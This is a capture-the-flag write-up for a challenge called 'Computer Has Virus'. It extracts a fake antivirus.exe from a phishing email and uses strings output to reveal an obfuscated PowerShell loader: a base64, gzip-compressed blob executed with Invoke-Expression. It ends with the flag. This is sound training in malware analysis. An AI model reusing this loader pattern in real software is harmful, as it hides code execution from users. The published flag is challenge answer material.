

# Computer Has Virus

```
Computer Has Virus

300

Help! I just fell victim to a phishing attack! I have attached the email they sent me. See if you can recover their secrets!

author: RJCyber
```

We know that if we open the `URGENT.eml` file, we can find that there is an attachment named `antivirus.exe`.

We can try to extract the `.eml` file using `munpack` to get the file.

After getting `antivirus.exe`, we can try to examine the file using `strings` and find something interesting

```
!This program cannot be run in DOS mode.
JU$g
.text
`.rsrc
@.reloc
*b(!
*B(,
Yh}
1P      os
1&      os
$compressed = 'H4sIAAAAAAAA/1TNQWvyQBDG8Xs+xRgCrx4SFW+B8EJFtIcSMA1SSglxHZOlyW66+6xtEL97iVhpr8P8n19wbMqKEvKXLw/pdn3OFsKZOfoCtZm5qi7Svb1d5rZQMxSnhekLO7wtRhffC1gJSug16y24jXa8jzZAl0M2Ev1bHOemWSmhDzy+WhPyApSmYuSmGeAa6OLp1FkhcOSvo2xgSkitIqHb6f3A/4c6GTifPJiezh4RUWDYdlpZpoQe1Um/c7jj/ZY/HFtQmBtJv7zwiVHrA61Xz9d6ZyQ4TB06B/J/pmIKxvfdKEMJZ5f6wBOfvAuJEqK+6X/7fEPpZkSZbhm1VNU/S59Gq2o0dN53AAAA//+hRs8SawEAAA=='; $bytes = [System.Convert]::FromBase64String($compressed); $stream = New-Object IO.MemoryStream(, $bytes); $decompressed = New-Object IO.Compression.GzipStream($stream, [IO.Compression.CompressionMode]::Decompress); $reader = New-Object IO.StreamReader($decompressed); $obfuscated = $reader.ReadToEnd(); Invoke-Expression $obfuscated
BSJB
v4.0.30319
```

There are compressed variables that are in base64 format:

`H4sIAAAAAAAA/1TNQWvyQBDG8Xs+xRgCrx4SFW+B8EJFtIcSMA1SSglxHZOlyW66+6xtEL97iVhpr8P8n19wbMqKEvKXLw/pdn3OFsKZOfoCtZm5qi7Svb1d5rZQMxSnhekLO7wtRhffC1gJSug16y24jXa8jzZAl0M2Ev1bHOemWSmhDzy+WhPyApSmYuSmGeAa6OLp1FkhcOSvo2xgSkitIqHb6f3A/4c6GTifPJiezh4RUWDYdlpZpoQe1Um/c7jj/ZY/HFtQmBtJv7zwiVHrA61Xz9d6ZyQ4TB06B/J/pmIKxvfdKEMJZ5f6wBOfvAuJEqK+6X/7fEPpZkSZbhm1VNU/S59Gq2o0dN53AAAA//+hRs8SawEAAA==`

let's try again on CyberChef and see what we can find.



flag: `CYBORG{S3cur1ty_thr0ugh_Obscur1ty_1s_n0t_v3ry_s3cur3!}`